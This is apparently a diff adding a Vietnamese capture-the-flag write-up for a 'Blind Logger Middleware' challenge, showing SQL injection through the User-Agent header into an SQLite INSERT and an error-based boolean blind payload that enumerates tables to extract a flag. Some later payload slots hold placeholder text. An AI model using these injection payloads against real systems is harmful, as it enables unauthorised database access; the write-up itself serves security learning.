

Before and after one commit to toanduneee/Training-KCSC, a Markdown page: Task-1/cookieArena.md, the part around the change. Shown at 93% size. Drawn GitHub-style; blank space fills up the shorter version; grey boxes are pictures that could not be loaded.

````diff
--- a/Task-1/cookieArena.md
+++ b/Task-1/cookieArena.md
@@ -130,3 +130,48 @@
 
 
 # 3. Blind Logger Middleware
+
+## Đầu bài cho biết:
+```sql
+INSERT INTO logger (ip_address, user_agent, referer, url, cookie, created_at)
+VALUES ('{ip_address}', '{user_agent}', '{referer}', '{url}', '{cookie}', '{created_at}');
+```
+- Có một hàm được triển khai để "làm sạch" (sanitize) đầu vào của người dùng, loại bỏ các ký tự đặc biệt trước khi chèn chúng vào truy vấn SQL
+- SQLite
+
+## Giải
+- Trong câu lệnh INSERT kia có các thành phần là `ip_address`, `user_agent`, `referer`, `url`, `cookie`, `created_at`. Để ý đến `user_agent` có trong request gửi đi, nên em nghĩ mình có thể attack từ đây.
+- Sửa `User-Agent` thành: `', null, null, null, null),(null,'`
+- Khi đó truy vấn gửi đi sẽ là:
+``` sql
+INSERT INTO logger (ip_address, user_agent, referer, url, cookie, created_at)
+VALUES ('{ip_address}', '{user_agent}', null, null, null, null), (null,'', '{referer}', '{url}', '{cookie}', '{created_at}');
+```
+- Như vậy nó sẽ thành gửi đi 2 bộ giá trị.
+
+![image](https://github.com/user-attachments/assets/39f96a09-d136-47c1-adc1-6b3db8efa3d6)
+
+- Thử giá trị NULL kia, thì nó ở dạng số hoặc string.
+- Từ đây em muốn sử dụng Boolean để đoán ra từng ký tự có trong flag.
+- Đầu tiên, tìm kiếm tên bảng với truy vấn này và [script này](https://github.com/toanvunee/Training-KCSC/blob/main/Task-1/ckArenapy/Blind_Logger_Middleware_tables.py)
+
+`', (SELECT CASE WHEN substr((SELECT name FROM sqlite_master WHERE type='table' LIMIT 1 OFFSET 0), 1, 1) = 'a' THEN 1 ELSE abs(-9223372036854775808) END), null, null, null),(null,'`
+
+![image](https://github.com/user-attachments/assets/e728ddf4-b962-4673-8e14-1585ba36baf4)
+
+- Có 2 bảng là `logger` và `flag`
+- Khai thác bảng `flag` với truy vấn và script này
+
+`aaaaaaa`
+
+![image](https://github.com/user-attachments/assets/4214545f-1e10-4b4f-b677-d8196c50a05e)
+
+- Vậy là có 2 cột là: `id` và `secret`
+
+- Tiếp tục khai thác cột `secret` để tìm flag có trong cột bằng truy vấn và script này
+
+`dfsfsfs`
+
+![image](https://github.com/user-attachments/assets/08051c0e-6683-4ebe-8e9b-f168a8a32fa7)
+
+- Lấy được flag: `CHH{blInD_sqLi_1N_UPDATE}`
````
